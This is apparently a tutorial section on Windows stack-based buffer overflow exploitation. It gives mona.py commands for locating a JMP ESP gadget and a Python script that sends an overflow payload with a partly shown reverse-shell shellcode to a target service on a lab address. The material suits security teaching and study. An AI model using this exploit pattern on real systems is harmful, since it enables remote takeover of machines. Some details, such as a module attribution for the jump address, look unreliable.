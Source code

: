 ### Windows Stack-Based Buffer Overflow

#### Key Differences from Linux
1. **DLL-based Architecture** - Find JMP ESP in system DLLs
2. **Bad Characters** - More restrictive (often `\x00\x0a\x0d\x20`)
3. **Memory Protections** - DEP, ASLR (discussed later)
4. **Calling Conventions** - STDCALL vs CDECL

#### Finding JMP ESP in Windows DLLs
```python
#!/usr/bin/env python3
# Using Immunity Debugger with mona.py

# In Immunity Debugger command line:
!mona modules

# Look for modules with:
# - No ASLR
# - No SafeSEH
# - No DEP
# - Executable permissions

# Find JMP ESP
!mona find -s "\xff\xe4" -m kernel32.dll

# Exclude bad characters
!mona find -s "\xff\xe4" -m kernel32.dll -cpb "\x00\x0a\x0d"
```

#### Windows Exploit Example
```python
#!/usr/bin/env python3
import socket
import struct

target_ip = "192.168.1.100"
target_port = 9999

# Offset to EIP
offset = 2006

# JMP ESP address (from mona)
jmp_esp = 0x625011AF  # kernel32.dll

# NOP sled
nops = b"\x90" * 16

# Shellcode (windows/shell_reverse_tcp)
shellcode = (
    b"\xdb\xc0\xd9\x74\x24\xf4\x5d\x29\xc9\xb1\x52\xbe\x9b\x40"
    b"\xf0\x86\x31\x75\x17\x83\xc5\x04\x03\xdd\xb5\xb3\x79\x21"
    # ... (full shellcode)
)

# Build exploit
exploit = b"A" * offset
exploit += struct.pack("<I", jmp_esp)
exploit += nops
exploit += shellcode

# Send exploit
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))
s.send(exploit)
```